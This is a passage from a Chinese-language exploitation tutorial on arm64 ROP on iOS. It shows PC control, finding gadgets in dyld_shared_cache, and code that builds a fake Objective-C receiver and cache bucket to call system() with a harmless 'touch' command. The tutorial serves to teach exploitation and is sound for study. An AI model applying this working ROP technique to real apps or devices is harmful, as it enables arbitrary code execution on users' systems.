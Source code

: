 
可以看到我们成功的控制了PC，让PC指向了0x41414141414141。

0x05 iOS上的arm64 ROP
=====

虽然我们控制了PC，但在iOS上我们并不能采用`nmap()`或者`mprotect()`将内存改为可读可写可执行，如果我们想要让程序执行一些我们想要的指令的话必须要使用ROP。如果对于ROP不太了解的话，我推荐阅读一下我写的《一步一步学ROP》系列文章([http://drops.wooyun.org/papers/11390](http://drops.wooyun.org/papers/11390))

在各个系统中ROP的基本思路是一样的，这里我就简单介绍一下iOS上ROP的思路。

首先要知道的是，在iOS上默认是开启ASLR+DEP+PIE的。ASLR和DEP很好理解，PIE的意思是program image本身在内存中的地址也是随机的。所以我们在iOS上使用ROP技术必须配合信息泄露的漏洞才行。虽然在iOS上写ROP非常困难，但有个好消息是虽然program image是随机的，但是每个进程都会加载的`dyld_shared_cache`这个共享缓存的地址在开机后是固定的，并且每个进程的`dyld_shared_cache`都是相同的。这个`dyld_shared_cache`有好几百M大，基本上可以满足我们对gadgets的需求。因此我们只要在自己的进程获取`dyld_shared_cache`的基址就能够计算出目标进程gadgets的位置。

`dyld_shared_cache`文件一般保存在`/System/Library/Caches/com.apple.dyld/`这个目录下。我们下载下来以后就可以用ROPgadget这个工具来搜索gadget了。我们先实现一个简单的ROP，用`system()`函数执行”`touch /tmp/IceAndFire`”。因为我们`x0`是我们控制的`fake_receiver`的地址，因此我们可以搜索利用`x0`来控制其他寄存器的gadgets。比如下面这条：

```
ldr x1, [x0, #0x98] ; ldr x0, [x0, #0x70] ; cbz x1, #0xdcf9c ; br x1

```

随后我们可以构造一个假的结构体，然后给对应的寄存器赋值：

```
struct fake_receiver_t
{
    uint64_t fake_objc_class_ptr;
    uint8_t pad1[0x70-0x8];
    uint64_t x0;
    uint8_t pad2[0x98-0x70-0x8];
    uint64_t x1;
    char cmd[1024];
}fake_receiver;

fake_receiver.x0=(uint64_t)&fake_receiver.cmd;
fake_receiver.x1=(void *)dlsym(RTLD_DEFAULT, "system");
NSLog(@"system_address = %p", (void*)fake_receiver.x1);
strcpy(fake_receiver.cmd, "touch /tmp/IceAndFire");

```

最后我们将`cached_function`的值指向我们gagdet的地址就能控制程序执行`system()`指令了：

```
uint8_t* CoreFoundation_base = find_library_load_address("CoreFoundation");
NSLog(@"CoreFoundationbase address = %p", (void*)CoreFoundation_base);

//0x00000000000dcf7c  ldr x1, [x0, #0x98] ; ldr x0, [x0, #0x70] ; cbz x1, #0xdcf9c ; br x1
fake_cache_bucket.cached_function = (void*)CoreFoundation_base + 0x00000000000dcf7c;
NSLog(@"fake_cache_bucket.cached_function = %p", (void*)fake_cache_bucket.cached_function);

```
